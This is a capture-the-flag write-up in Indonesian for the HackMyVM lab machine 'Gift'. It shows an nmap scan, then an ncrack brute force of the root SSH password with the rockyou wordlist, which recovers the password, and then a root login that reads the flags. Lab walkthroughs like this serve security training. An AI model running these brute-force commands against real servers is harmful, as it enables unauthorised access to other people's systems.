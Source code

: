 ```yaml
---
layout: Post
title: HackMyVM - Gift Writeup
date: 2021-10-16 07:45 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/gift.zip">Gift</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/x6cx61x63x61x73">sml</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialah scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/Gift] - [10539]
└─[$] nmap -A 192.168.0.199                                                                                                 [7:45:38]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-16 07:45 WIB
Nmap scan report for 192.168.0.199
Host is up (0.00072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
|_http-server-header: nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:F1:13:D3 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=10/16%OT=22%CT=1%CU=43628%PV=Y%DS=1%DC=D%G=Y%M=080027%
OS:TM=616A20D0%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%TS=
OS:A)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B
OS:4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W
OS:1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%
OS:O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## Bruteforce Password
Oke disini ku bingung karena pas ku scan directory gak ada yang mencurigakan, akhirnya ku coba bruteforce password root dari vm dengan `ncrack` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/Gift] - [10541]
└─[$] ncrack -v -f --user root -P /opt/wordlist/rockyou.txt 192.168.0.199:22                                                [7:48:54]

Starting Ncrack 0.6 ( http://ncrack.org ) at 2021-10-16 07:49 WIB

Discovered credentials on ssh://192.168.0.199:22 'root' 'simple'
ssh://192.168.0.199:22 finished.

Discovered credentials for ssh on 192.168.0.199 22/tcp:
192.168.0.199 22/tcp ssh: 'root' 's****e'

Ncrack done: 1 service scanned in 25.24 seconds.
Probes sent: 83 | timed-out: 0 | prematurely-closed: 12

Ncrack finished.
```

# SSH

And boom dapetlah password root nya , serta flag root dan user :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/Gift] - [10542]
└─[$] ssh root@192.168.0.199                                                                                                [7:49:31]
The authenticity of host '192.168.0.199 (192.168.0.199)' can't be established.
ECDSA key fingerprint is SHA256:KFsXFz6bLBGiizM+z6jxQpNrqpVzPLLX7Fj7n/npQHc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.0.199' (ECDSA) to the list of known hosts.
root@192.168.0.199's password: 
IM AN SSH SERVER
gift:~# ls
root.txt  user.txt
gift:~# cat root.txt user.txt; echo "https://github.com/xNCT22x"
HMV******FG
HMV******DS
https://github.com/xNCT22x
```
